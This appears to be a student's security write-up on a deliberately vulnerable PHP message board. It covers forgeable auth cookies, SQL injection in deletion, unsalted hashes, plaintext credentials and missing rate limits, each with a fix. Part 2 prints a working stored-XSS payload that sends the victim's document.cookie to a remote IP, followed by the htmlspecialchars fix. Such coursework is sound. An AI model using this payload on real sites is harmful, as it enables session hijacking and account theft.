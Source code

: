 #Part 1.

1.
	The application tries to prevent access to messages by checking for the existence of a cookie that is created when the user is authenticated and logged in. Messages can be deleted by visiting a GET URL, the link to which is only visible when the user who is viewing the message has a cookie that matches the user who created the message. Even worse, the deletion action is vulnerable to SQL injection which would allow any user to delete any post or worse.

	Unfortunately, these security policies are not adequate to prevent unauthorized access. Malicious users can easily create a cookie called "hackme" which contains the username which they wish to target. The actual message deletion action doesn't check to see if the user is authorized, anyone can enter an arbitrary message ID which they wish to delete. 

	In order to fix this I implemented PHP sessions. Rather than sending the actual username and password as a cookie, a unique session ID is set which an attacker wouldn't be able to guess (they could snoop for it, but that is addressed later). The application then checks for the existence of the session ID and makes sure it is valid. Similarly, the deletion action will check to make sure the user is actually authorized and that the ID provided is valid.

2.
	The database only contains password hashes. But the passwords are not salted resulting in duplication of hashes.

3. 
	Attackers can easily snoop for user credentials for multiple reasons. Since the site is not HTTPS, usernames and passwords are sent via plantext over the network. Furthermore, the username and hashed password are stored in cookies which are sent with every network request. It would be trivial to snoop for credentials.

	To fully fix this, I would need to enable HTTPS. But I did stop saving the username and password in a cookie. Instead I use a unique PHP session ID for further authentication.

4.
	Login attempts are not rate limited, making brute force attacks trival.

	I fixed this by slowing down the number of attempts allowed per minute on a user.

5. 
	No password scheme was implemented, users could submit anything as a password.

#Part 2

The attacker could post an image that fails to load, forcing JS to run. In this case, I wrote a simple script that sends the user's cookie to the remote server.

```
<img src="fdfjkdfjfkjdfdf.dfdjf" onerror="this.src=\'http://10.121.20.103/hackme-xss.php?c=\' + document.cookie">
```

In order to fix this, I disabled all usage of HTML in messages by using the `htmlspecialchars` function in PHP when rendering the user submitted content.

